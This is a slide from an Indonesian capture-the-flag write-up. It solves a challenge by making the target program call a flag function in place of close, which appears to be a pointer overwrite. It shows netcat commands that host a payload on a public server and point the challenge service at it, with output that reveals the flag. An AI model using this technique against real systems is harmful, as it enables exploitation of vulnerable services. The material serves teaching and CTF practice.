

# Solusi
Dengan payload tersebut, jika program memanggil fungsi close, fungsi flag yang justru dijalankan
Host payload di suatu server publik:

Kunjungi server challenge dan arahkan IP:port ke server kita tadi:
| $ echo -ne '<payload\_yang\_tadi>' | nc -l 2222 |
| --- |
| $ nc 128.199.174.161 17866 |
| --- |
| Selamat Datang Di -HOST GATEWAY-! Masukkan Alamat IPv4 Tujuan:103.10.105.200 Masukkan Port:2222 Oke, mencoba terkoneksi 103.10.105.200:2222 saat! �ABCDEFGHIJKL8`flag{format\_masa\_lalU} |